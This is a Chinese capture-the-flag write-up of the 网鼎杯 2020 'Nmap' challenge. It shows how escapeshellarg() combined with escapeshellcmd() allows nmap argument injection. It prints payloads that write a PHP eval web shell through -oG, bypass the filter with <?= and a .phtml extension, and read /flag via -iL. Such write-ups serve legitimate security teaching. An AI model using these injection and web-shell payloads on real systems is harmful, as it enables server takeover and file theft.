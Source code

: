 # \[网鼎杯 2020 朱雀组]Nmap

## \[网鼎杯 2020 朱雀组]Nmap

## 考点

* Nmap使用
* escapeshellarg()+escapeshellcmd() 之殇
* 文件上传bypass
  * `phtml`绕过php黑名单
  * `<?=`绕过php黑名单

## wp

抓包可以看到请求的内容为`host=127.0.0.1`，没有其他东西。

* 传入`127.0.0.1' -o xxxx`，提示hostname是`127.0.0.1\`，访问xxxx无结果
* 传入`127.0.0.1 -o xxxx'`提示hostname是`127.0.0.1 -o xxxx\'`，访问xxxx无结果
* 传入`'127.0.0.1 -o xxxx '`，提示`Host maybe down`
* 访问xxxx，发现语句如下

```
nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/47cae -o xxxx \127.0.0.1 \\
```

这就和[\[BUUCTF 2018\]Online Tool](buuctf-2018-online-tool.md)一样，那传入`127.0.0.1' -o xxxx`，应该访问`xxxx'`

使用同样的payload，提示`Hacker...`

```
'<?php eval($_POST["a"]);?> -oG shell.php '
```

测试发现过滤了php，`<?php`可以使用`<?=`绕过，写入的shell文件后缀可以使用`phtml`绕过

```
'<?=eval($_POST[1]);?> -oG shell.phtml '
```

蚁剑连接或者直接连接即可。

在Nmap中还有一个参数`-iL`是从文件中加载URL，也就是说，可以利用这一点进行文件读取

```
127.0.0.1' -iL /flag -o xxxx
```

![](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png>)

## 小结

1. [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)
2. 类似[\[BUUCTF 2018\]Online Tool](buuctf-2018-online-tool.md)



